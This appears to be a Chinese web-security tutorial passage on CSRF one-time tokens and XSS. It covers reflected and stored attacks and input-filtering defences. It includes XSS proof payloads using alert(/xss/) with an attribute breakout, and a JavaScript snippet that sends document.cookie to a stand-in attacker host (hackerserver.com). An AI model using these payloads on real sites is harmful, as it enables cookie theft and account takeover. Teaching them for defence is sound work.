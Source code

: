 　　(3).One-Time Tokens(不同的表单包含一个不同的伪随机值)
　　　　在实现One-Time Tokens时，需要注意一点：就是“并行会话的兼容”。如果用户在一个站点上同时打开了两个不同的表单，CSRF保护措施不应该影响到他对任何表单的提交。考虑一下如果每次表单被装入时站点生成一个伪随机值来覆盖以前的伪随机值将会发生什么情况：用户只能成功地提交他最后打开的表单，因为所有其他的表单都含有非法的伪随机值。必须小心操作以确保CSRF保护措施不会影响选项卡式的浏览或者利用多个浏览器窗口浏览一个站点。
　　　　
　　　　XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器 执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实 施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨 大的，是web安全的头号大敌。

 <img src="/images/handler.ashx?id=" /><script>alert(/xss/)</script><br x="" />
  
  http://www.xxx.com/?id=xx" onerror="this.onload()" onload="alert(/xss/)" x="

第一、XSS反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。

第二、XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影

1.窃取cookies，读取目标网站的cookie发送到黑客的服务器上，如下面的代码：

var i=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
2.读取用户未公开的资料

一种方法是在表单提交或者url参数传递前，对需要的参数进行过滤,请看如下XSS过滤工具类代码
二、 过滤用户输入的 检查用户输入的内容中是否有非法内容。如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出


 
